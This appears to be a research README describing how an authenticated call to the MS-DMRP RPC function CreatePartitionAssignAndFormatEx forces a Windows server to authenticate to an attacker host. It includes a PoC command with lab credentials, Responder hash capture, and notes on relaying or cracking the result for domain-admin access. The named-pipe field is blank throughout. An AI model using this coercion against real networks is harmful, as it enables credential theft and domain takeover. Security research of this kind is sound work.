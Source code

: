 # MS-DMRP - Remote call to IVolumeClient::CreatePartitionAssignAndFormatEx (opnum 7)

## Summary

 - **Protocol**: [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd)

 - **Protocol UUID**: d2d79df5-3400-11d0-b40b-00aa005ff586

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`IVolumeClient::CreatePartitionAssignAndFormatEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/652fe47e-655d-417f-a26d-7a21bc7aa6ec)

 - **Function operation number**: `7`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol (with uuid `d2d79df5-3400-11d0-b40b-00aa005ff586` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) and allows to call RPC functions of this protocol. We will then call the remote [`IVolumeClient::CreatePartitionAssignAndFormatEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/652fe47e-655d-417f-a26d-7a21bc7aa6ec) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IVolumeClient::CreatePartitionAssignAndFormatEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CreatePartitionAssignAndFormatEx(
   [in] REGION_SPEC partitionSpec,
   [in] wchar_t letter,
   [in] hyper letterLastKnownState,
   [in] int cchAccessPath,
   [in, size_is(cchAccessPath)] wchar_t* AccessPath,
   [in] FILE_SYSTEM_INFO fsSpec,
   [in] boolean quickFormat,
   [in] DWORD dwFlags,
   [out] TASK_INFO* tinfo
 );
```

## References

 - Documentation of protocol [MS-DMRP]: Disk Management Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd

 - Documentation of function `IVolumeClient::CreatePartitionAssignAndFormatEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/652fe47e-655d-417f-a26d-7a21bc7aa6ec